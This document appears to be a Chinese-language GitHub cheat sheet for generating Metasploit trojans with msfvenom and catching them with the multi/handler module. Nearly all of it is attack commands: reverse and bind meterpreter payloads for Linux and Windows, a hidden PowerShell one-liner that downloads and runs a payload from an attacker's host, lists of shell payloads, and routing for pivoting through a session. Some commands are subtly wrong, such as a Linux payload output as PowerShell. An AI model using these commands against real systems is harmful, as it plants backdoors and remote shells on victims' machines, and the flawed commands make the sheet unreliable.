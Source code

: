 ## 用法示例：

>1. msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<本机ip地址> lport=<本机监听端口> -f psh-reflection  -o xx.ps1   //生成文件放在目标机目录下
>   //powershell执行脚本：powershell -windowstyle hidden -exec bypass IEX (New-Object  Net.WebClient).DownloadString('http://<yourip>/xxx.ps1');xxx.ps1
>2. use exploit/multi/handler
>3. set payload windows/x64/meterpreter/reverse_tcp
>4. show options
>5. set LHOST=XXX    RHOST=XXX
>6. run
>7. 目标主机执行木马文件

## msfvenon生成木马文件：
格式：msfvenom -p <payload> <payload options> -a <arch> --platform <platform> -e <encoder option> -i <encoder times> -b <bad-chars> -n <nopsled> -f <format> -o <path>
          // -e 常用编码    x86/shikata_ga_nai      cmd/powershell_base64
         // -f指指定的可执行文件类型   -o 指定输出地址。



## 反向连接：

- linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<本机ip地址> LPORT=<本机监听端口> -f psh-reflection  -o xx.ps1
```

- windows:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<本机ip地址> LPORT=<本机监听端口> -f psh-reflection  -o xx.ps1
//生成64位系统木马：
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<本机ip地址> lport=<本机监听端口> -f psh-reflection  -o xx.ps1
```



## 正向连接：

- linux:

```
msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=<本机ip地址> LPORT=<本机监听端口> -f psh-reflection  -o xx.ps1
```

- windows:

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=<本机ip地址> LPORT=<本机监听端口> -f psh-reflection  -o xx.ps1
```



## 启用exploit/multi/handler模块：

```
use exploit/multi/handler 
```



## 设置PAYLOAD：
- linux：

```
linux/x86/meterpreter/reverse_tcp  //反向payload
linux/x86/meterpreter/bind_tcp       //正向payload
linux/x86/shell_bind_tcp
linux/x86/shell_reverse_tcp
linux/x64/shell_reverse_tcp
linux/x64/shell_bind_tcp
```

- windows:

```
windows/meterpreter/reverse_tcp    //反向payload
windows/meterpreter/bind_tcp         //正向payload
windows/shell_reverse_tcp
windows/shell_bind_tcp
windows/x64/meterpreter/reverse_tcp
windows/x64/meterpreter/bind_tcp
windows/x64/shell_reverse_tcp
windows/x64/shell_bind_tcp
```



## 设置参数运行
```
set  .....

run
```



## 添加路由
```
route add <目标IP> <目标子网掩码>

示例：route add 10.0.0.1 255.0.0.0 1       //最后的1为添加该路由到session 1
```

